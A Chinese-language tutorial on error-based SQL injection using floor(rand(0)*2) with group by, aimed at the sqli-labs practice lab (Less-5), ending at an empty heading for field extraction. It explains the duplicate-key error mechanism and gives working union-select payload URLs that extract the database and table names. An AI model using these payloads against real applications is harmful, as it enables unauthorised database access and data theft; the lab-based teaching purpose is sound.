 报错注入形式上是两个嵌套的查询，即select.…（select..…），里面的那个select被称为子查询，他的执行顺序也提先执行子查询，然后再执行外面的select，双注入主要涉及到了几个sql函数：

- rand()随机函数，返回0~1之间的某个值
- floor(a)取整函数，返回小于等于a，且值最接近a的一个整数
- count()聚合函数也称作计数函数，返回查询对象的总数
- group by clause分组语句，按照查询结果分组

**查询的时候如果使用rand()的话，该值会被计算多次。**
在使用group by的时候，floor（rand（0）*2）会被执行一次，
如果虚表不存在记录，插入虚表的时候会再被执行一次。在一次多记录的查询过程中floor（rand（0）*2）的值是定性的，为011011

`select count(*) from table group by floor(rand(0)*2);`

`select concat_ws(':',(select database()),floor(rand()*2)) as b from information_schema.tables;`

会执行n次concat_ws(':',(select database()),floor(rand()*2)) as b，
n为information_schema.tables表的字段数

#### GROUP BY
我们可以先从字面上来理解，GROUP表示分组，BY后面写字段名，就表示根据哪个字段进行分组。
GROUP BY必**须得配合聚合函数来用**，分组之后你可以计数（COUNT），求和（SUM），求平均数（AVG）等。




深层次的原因：
通过floor报错的方法来爆数据的本质是group by语句的报错。
group by语句报错的原因是`floor(random(0)*2)`的不确定性，即可能为0也可能为1（group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中则更新临时表中的数据；如果该key不存在于临时表中，则在临时表中插入key所在行的数据。`group by floor(random(0)*2)`出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下`floor(random(0)*2)`可能为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时floor(random(0)*2)结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值。




Payload:


查库名
`http://localhost/sqli-labs-master/Less-5/?id=0' union select 1,count(*),concat_ws(':',(select database()),floor(rand()*2)) as a from information_schema.tables group by a--+`


查表名
`http://localhost/sqli-labs-master/Less-5/?id=0' union select 1,count(*),concat_ws(':',(select table_name from information_schema.tables where table_schema=database()),floor(rand()*2)) as a from information_schema.tables group by a--+`

报错
> Subquery returns more than 1 row


加limit
`http://localhost/sqli-labs-master/Less-5/?id=0' union select 1,count(*),concat_ws(':',(select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2)) as a from information_schema.tables group by a--+`



查字段
